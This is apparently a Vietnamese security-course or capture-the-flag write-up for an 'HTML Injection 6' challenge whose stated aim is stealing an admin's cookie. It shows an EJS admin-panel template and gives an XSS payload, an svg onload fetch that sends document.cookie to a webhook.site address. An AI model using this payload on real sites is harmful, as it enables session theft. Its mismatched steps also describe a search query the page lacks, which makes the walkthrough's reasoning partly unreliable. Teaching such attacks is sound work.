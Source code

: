 # HTML Injection 6

# Thử thách về lỗi bảo mật HTML Injection

# Mục tiêu: Cướp cookie của admin
# Phân tích code:
```html
<!DOCTYPE html>
<html>

<head>
    <title>Quick Note 6</title>
    <style>
        body {
            padding: 50px;
            font: 14px "Lucida Grande", Helvetica, Arial, sans-serif;
        }

        input {
            margin-top: 5px;
            margin-bottom: 5px;
            display: inline-block;
            vertical-align: middle;
            margin-left: 20px
        }

        label {
            display: inline-block;
            padding-top: 5px;
            text-align: left;
            width: 70px;
        }
    </style>
</head>

<body>
    <h1>Quick Note 6 - Admin panel</h1>
    <br>
    <table>
        <tr>
            <td><b>Email</b></td>
            <td><b>Content</b></td>
        </tr>
        <% for(var i in tickets) { %>
            <tr>
                <td>
                    <%- tickets[i].email %>
                </td>
                <td>
                    <%= tickets[i].content %>
                </td>
            </tr>
            <% } %>
    </table>
    <br>
    <a href="/logout">Logout</a>
</body>

</html>
```
- Đoạn code trên là một trang HTML hiển thị danh sách các ticket với email và nội dung của chúng. Tuy nhiên, **việc sử dụng `<%= %>` để hiển thị nội dung của ticket là an toàn**, vì EJS sẽ tự động escape các ký tự đặc biệt (như `<`, `>`, `&`, `"`, `'`). Điều này ngăn chặn việc chèn và thực thi mã HTML hoặc JavaScript độc hại, nên không gây ra lỗ hổng XSS.
- Nếu muốn render HTML hoặc JavaScript trực tiếp (không escape), phải dùng `<%- %>`. Khi đó, nếu dữ liệu không được kiểm tra, sẽ có nguy cơ XSS.
- **Kết luận:** Sử dụng `<%= %>` là an toàn với dữ liệu đầu vào từ người dùng. Chỉ `<%- %>` mới có nguy cơ XSS nếu render dữ liệu không kiểm tra.
# Bước thực hiện
- Để thực hiện HTML Injection, bạn cần gửi một yêu cầu đến trang này với một truy vấn tìm kiếm chứa mã HTML hoặc JavaScript.
- Ví dụ, bạn có thể sử dụng truy vấn tìm kiếm như sau:
```html
<svg onload="fetch('https://webhook.site/3a6cea0c-0c4b-4528-a54e-421553192587?cookie='+document.cookie)">
```
- Khi nạn nhân truy cập vào trang web và mã JavaScript này được thực thi, nó sẽ gửi cookie của nạn nhân đến máy chủ của bạn thông qua một yêu cầu `fetch`.
## Một số lưu ý khi làm bài

- Khi nộp bài, hãy chắc chắn rằng bạn đã xóa tất cả các thông tin nhạy cảm, bao gồm cả cookie, khỏi mã nguồn của mình.
- Không chia sẻ bài làm của mình với người khác, trừ khi bạn chắc chắn rằng họ cũng đang tham gia vào khóa học này.
- Hãy chắc chắn rằng bạn đã đọc và hiểu rõ về các quy định và chính sách của khóa học trước khi bắt đầu làm bài.
